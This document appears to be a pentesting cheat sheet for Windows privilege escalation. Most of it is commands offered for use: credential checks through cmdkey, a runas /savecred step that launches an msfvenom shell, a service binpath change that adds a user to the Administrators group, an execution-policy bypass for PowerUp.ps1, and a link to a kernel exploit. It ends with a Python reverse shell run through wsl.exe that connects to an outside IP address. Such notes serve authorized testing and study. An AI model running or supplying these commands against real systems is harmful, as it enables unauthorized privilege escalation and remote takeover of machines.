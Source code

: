 # Windows Enumeration


| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 
| ```accesschk64.exe -wvu <file.exe>``` | This will check the files access writes |
| ```icacls.exe <filename.txt>``` | Does the same thing as accesschk64.exe but is native to OS |
| ```accesschk64.exe -uwcv Everyone *``` | Searches the file system for world-writeable service binaries |
| ```accesschk64.exe -uwcv <service name>``` | Once you identify a service, get more detail by searching for the single service name |
| ```sc query <service name>``` | We can gather the binmary path name by using the sc query command |
| ```sc config <service name> binpath= "net localgroup administrators <username> /add"``` | Modify binpath |
| ```powershell.exe -nop -ep bypass . .\PowerUp.ps1``` | With modified PowerUp.ps1, will run as you invoke program |
 
| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |
| Check for autoruns | These are programs that can run with elevated permissions. If they have execissive permssions (EVERYONE) you can replace the binary and elevate access |
| Check for Binary Path issues| See command above, its important that we can restart these services to affect them |
| If Binary Path has issue | We can modify the path to our malicious payload, add your self to Administrators group, or use other techniques |
| Check with PowerUp.ps1 | Make sure you have modified the script to Invoke-AllChecks |
| Older Windows OS Win7, Win2008 | Check MS10-059 (Chimichurri) ```https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri``` |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```